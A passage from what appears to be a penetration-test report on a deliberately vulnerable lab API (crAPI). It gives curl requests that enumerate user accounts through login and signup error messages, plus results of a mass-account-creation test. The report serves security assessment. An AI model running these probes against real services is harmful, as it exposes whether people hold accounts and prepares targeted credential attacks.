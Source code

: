2. Execute concurrent account creation across multiple threads

**Proof of Impact:**
- Successfully created 49 out of 50 accounts (98% success rate)
- No rate limiting, CAPTCHA, or IP-based restrictions
- Demonstrated resource exhaustion potential
- Average response time: 1,820ms (no throttling detected)

### AUTH-VULN-08: User Enumeration via Login Error Messages

**Summary:**
- **Vulnerable location:** `POST /identity/api/auth/login` error responses
- **Overview:** Different error messages reveal account existence
- **Impact:** Privacy violation and reconnaissance for targeted attacks
- **Severity:** Medium

**Prerequisites:** None

**Exploitation Steps:**

1. Test non-existent email:
```bash
curl -k -X POST "https://crapi.sandbox.local:8888/identity/api/auth/login" -H "Content-Type: application/json" -d '{"email": "nonexistent@test.com", "password": "anything"}'
```
Response: `"Given Email is not registered!"`

2. Test existing email with wrong password:
```bash
curl -k -X POST "https://crapi.sandbox.local:8888/identity/api/auth/login" -H "Content-Type: application/json" -d '{"email": "test@example.com", "password": "wrongpassword"}'
```
Response: `"Invalid Credentials"`

**Proof of Impact:**
- Clear distinction between "user exists" vs "user doesn't exist"
- Confirmed valid accounts: `test@example.com`, `admin@example.com`
- 18 emails tested with 100% enumeration accuracy

### AUTH-VULN-09: User Enumeration via Signup Error Messages

**Summary:**
- **Vulnerable location:** `POST /identity/api/auth/signup` error responses  
- **Overview:** Registration attempts reveal existing emails and phone numbers
- **Impact:** Privacy violation and account enumeration
- **Severity:** Medium

**Prerequisites:** None

**Exploitation Steps:**

1. Test signup with existing phone number:
```bash
curl -k -X POST "https://crapi.sandbox.local:8888/identity/api/auth/signup" -H "Content-Type: application/json" -d '{"name": "Test", "email": "new@test.com", "number": "1234567890", "password": "Test123!"}'
```
